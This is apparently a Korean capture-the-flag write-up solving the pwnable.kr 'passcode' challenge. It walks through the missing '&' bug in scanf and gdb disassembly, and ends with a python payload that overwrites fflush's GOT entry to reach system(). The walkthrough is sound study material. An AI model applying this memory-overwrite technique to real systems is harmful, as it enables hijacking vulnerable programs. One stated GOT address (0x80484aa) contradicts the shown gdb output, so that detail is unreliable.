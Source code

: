 # 문제
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)

---
# 개요
서버에 접속하여 ls 명령을 입력해보면 passcode, passcode.c, flag 3개의 파일이 존재하는 것을 알 수 있습니다. cat 명령어를 통해 passcode.c 파일을 확인합니다.

```c
#include <stdio.h>  
#include <stdlib.h>  

void login(){  
    int passcode1;  
    int passcode2;  

    printf("enter passcode1 : ");  
    scanf("%d", passcode1);  
    fflush(stdin);  

    printf("enter passcode2 : ");  
    scanf("%d", passcode2);  

    printf("checking...\n");  
    if(passcode1==338150 && passcode2==13371337){  
                printf("Login OK!\n");  
                system("/bin/cat flag");  
        }  
        else{  
                printf("Login Failed!\n");  
        exit(0);  
        }  
}  

void welcome(){  
    char name[100];  
    printf("enter you name : ");  
    scanf("%100s", name);  
    printf("Welcome %s!\n", name);  
}  

int main(){  
    printf("Toddler's Secure Login System 1.0 beta.\n");  

    welcome();  
    login();  

    // something after login...  
    printf("Now I can safely trust you that you have credential :)\n");  
    return 0;     
}  
```
main함수에서 welcome() → login() 순으로 실행됩니다. welcome() 함수에서 100byte를 입력받고 그 값을 출력합니다. login() 함수에는 2개의 입력을 받아 출력한는데 scanf() 함수에 & 연산자가 누락된 것을 알 수 있습니다. &연산자가 없으면 scanf함수는 받은 인자를 주소로 인식합니다. 이를 이용하여 변수 값을 주소 삼아 쓰는 것이 가능합니다. 그리고 fflush(stdin) 명령을 통해 입력 버퍼를 비웁니다.

여기서 우리가 주목해야 할 코드는 다음과 같습니다.
```c
printf("enter passcode1 : ");  
scanf("%d", passcode1);  
fflush(stdin);  

printf("enter passcode2 : ");  
scanf("%d", passcode2);
```
이 둘의 입력 값을 passcode 라는 변수에 저장하는 것이 아닌 passcode 를 주소로 하는 곳에 저장을 하게됩니다. 예를들어 passcode가 0x12341234 라면 0x12341234에 우리가 입력한 값이 저장되는 것입니다. 두 변수 모두 초기화 되지 않았으므로 더미 값이 들어가 있을 것이고 그 더미 값을 주소로 하는 곳에 입력 값을 저장하게되기 때문에 오류가 발생합니다.
# 분석
gdb를 이용하여 바이너리를 분석해봅시다.  
```
0x0804862f <+38>:	lea    edx,[ebp-0x70]
0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:	mov    DWORD PTR [esp],eax
0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
```
welcome() 함수에서 ebp-0x70에 입력 값을 저장합니다.
```
0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
0x08048583 <+31>:	mov    DWORD PTR [esp],eax
0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
```
epb-0x10이 passcode1 의 위치임을 알 수 있습니다.  

welcome()함수에서 100byte 만큼의 입력을 받는데 [ebp-0x70] - [ebp-0x10] = 0x60 = 96byte이므로 passcode1의 값에 대한 조작이 가능합니다. 그리고 passcode의 값을 주소로 하는 곳에 원하는 아무 값을 넣을 수 있으므로 원하는 주소에 원하는 값을 넣을 수 있게 됩니다.  

이제 fflush(stdin)을 우회해야 합니다. 조작할 수 있는 4byte를 사용하여 fflush의 got 를 login의 system 함수로 바꾸면 system("/bin/cat/flag") 가 실행될 것입니다.
```
(gdb) i func
All defined functions:

Non-debugging symbols:
0x080483e0  _init
0x08048420  printf@plt
0x08048430  fflush@plt
0x08048440  __stack_chk_fail@plt
0x08048450  puts@plt
0x08048460  system@plt
0x08048470  __gmon_start__@plt
0x08048480  exit@plt
0x08048490  __libc_start_main@plt
0x080484a0  __isoc99_scanf@plt
0x080484b0  _start
0x080484e0  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048564  login
0x08048609  welcome
0x08048665  main
0x080486a0  __libc_csu_init
0x08048710  __libc_csu_fini
0x08048712  __i686.get_pc_thunk.bx
0x08048720  __do_global_ctors_aux
0x0804874c  _fini
(gdb) x/i 0x8048430
   0x8048430 <fflush@plt>:	jmp    DWORD PTR ds:0x804a004
(gdb)
```
fflush의 got 주소는 0x80484aa 입니다.
```
0x080485de <+122>:	call   0x8048450 <puts@plt>
0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
0x080485ea <+134>:	call   0x8048460 <system@plt>
```
login 함수에서 system 함수의 시작부분은 0x80485e3입니다.  
이를 이용하여 공격코드를 제작합니다.
```
passcode@ubuntu:~$ (python -c 'print "A" * 96 + "\x04\xa0\x04\x08" + "134514147"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAA! 
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
